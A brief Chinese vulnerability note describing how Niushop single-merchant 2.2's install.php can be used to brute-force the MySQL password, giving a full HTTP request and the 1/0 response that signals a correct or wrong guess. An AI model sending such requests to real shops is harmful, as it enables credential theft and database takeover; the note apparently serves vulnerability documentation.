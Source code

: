 Niushop 单商户 2.2 爆破MySQL密码
================================

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

### 安装爆破MySQL密码

    GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
    Host: 127.0.0.1
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
    Referer: http://127.0.0.1/niushop/install.php?refresh
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
    Cookie: action=db
    Connection: close

![](/Users/aresx/Documents/VulWiki/.resource/Niushop单商户2.2爆破MySQL密码/media/rId25.jpg)

爆破成功返回1，密码错误返回0

参考链接
--------

> https://y4er.com/post/niushop-getshell/
